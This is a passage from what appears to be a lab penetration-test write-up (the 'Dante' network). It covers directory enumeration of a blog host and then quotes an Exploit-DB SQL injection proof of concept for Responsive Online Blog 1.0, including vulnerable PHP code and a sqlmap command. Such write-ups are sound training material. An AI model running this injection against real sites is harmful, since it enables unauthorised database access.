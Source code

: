 ```bash
===============================================================
/index.php            (Status: 302) [Size: 0] [--> http://172.16.1.12/dashboard/]
/blog                 (Status: 301) [Size: 232] [--> http://172.16.1.12/blog/]
/img                  (Status: 301) [Size: 231] [--> http://172.16.1.12/img/]
/dashboard            (Status: 301) [Size: 237] [--> http://172.16.1.12/dashboard/]
/phpmyadmin           (Status: 403) [Size: 1188]
/webalizer            (Status: 301) [Size: 237] [--> http://172.16.1.12/webalizer/]
```

Additional page `/blog` is found here.
Let's visit the page.

![](attachments/dante_14.png)

It looks like a normal looking website.

I roamed around the website, and registered as a new user.
Once I login as the created user, I can see the following page;

![](attachments/dante_15.png)

It returns "BLOG ADMIN" panel which is weird for just created normal user.

I was able to add a new post, so I tried to upload random png file for test and got the following error message :

![](attachments/dante_16.png)

It seems that we cannot upload on `/images` folder.

##### SQL Injection on NIX04

After few more minutes, I focused on the banner of the blog page.

![](attachments/dante_17.png)

It says this blog is built up on "Responsive Blog".
I googled it to check if there's any vulnerability with this, and found SQLi vulnerability from the following : 
https://www.exploit-db.com/exploits/48615

```shell
# Exploit Title: Responsive Online Blog 1.0 - 'id' SQL Injection
# Date: 2020-06-23
# Exploit Author: Eren Şimşek
# Vendor Homepage: https://www.sourcecodester.com/php/14194/responsive-online-blog-website-using-phpmysql.html
# Software Link: https://www.sourcecodester.com/download-code?nid=14194&title=Responsive+Online+Blog+Website+using+PHP%2FMySQL
# Version: v1.0
# Tested on: Linux - Wamp Server

>Vulnerable File
   /category.php

>Vulnerable Code

   $id=$_REQUEST['id'];
   $query="SELECT * from blog_categories where id='".$id."'";
   Id parameter enters sql query without any changes

>Proof Of Concept
   sqlmap 'http://localhost/resblog/category.php?id=1' --dbs --batch
   OR
   http://TARGET/resblog/category.php?id=1' Single Quote will cause SQL error
```
